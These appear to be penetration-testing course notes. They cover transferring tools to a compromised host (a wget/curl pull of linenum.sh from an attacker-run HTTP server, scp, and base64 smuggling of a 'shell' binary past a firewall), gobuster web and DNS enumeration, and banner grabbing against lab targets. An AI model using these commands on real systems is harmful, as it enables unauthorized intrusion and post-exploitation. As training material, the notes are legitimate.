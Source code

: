   - `python3 -m http.server 8000`
  - `wget http://10.10.14.1:8000/linenum.sh`
  - `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`
- Using SCP
  - If we have obtained ssh user credentials on the remote host, we can use scp:
  - `scp linenum.sh user@remotehost:/tmp/linenum.sh`
  - Note that we specified the local file name after scp, and the remote directory will be saved to after the :
- Using Base64
  - In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:
  - `base64 shell -w 0`
  - Then copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:
  - `echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`
- Validating File Transfers
  - To validate the format of a file, we can run the file command on it.
  - `file shell`
  - When we run the file command on the shell file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run md5sum on it:
  - `md5sum shell`
  - Now, we can go to the remote server and run the same command on the file we transferred. If both files have the same md5 hash, the file was transferred correctly.

## Web Enumeration

- Gobuster
  - Allows for DNS, vhost and directory brute forcing, and other things like enumeration of public AWS S3 buckets
  - dirb common.txt
  - `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`
  - An HTTP status code of 200 reveals that the resource's request was successful,
  - 403 HTTP status code indicates that we are forbidden to access the resource,
  - A 301 status code indicates that we are being redirected, which is not a failure case.
  - Visiting http://10.10.10.121/wordpress in a browser reveals that WordPress is still in setup mode, which will allow us to gain remote code execution (RCE) on the server.
  - There also may be essential resources hosted on subdomains, such as admin panels or applications with additional functionality that could be exploited.
  - --> Use GoBuster to enumerate available subdomains of a given domain using the dns flag to specify DNS mode
  - `git clone https://github.com/danielmiessler/SecLists` -> `sudo apt install seclists -y` -> Next, add a DNS Server such as 1.1.1.1 to the /etc/resolv.conf file -> `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`
- Banner Grabbing / Web Server Headers
  - Gives a good picture of what's hosted on a web server; they can reveal the specific application framework in use, the authentication options, and whether the server is missing essential security options or has been misconfigured.
  - `curl -IL https://www.inlanefreight.com`
  - Another handy tool is [EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness), which can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.

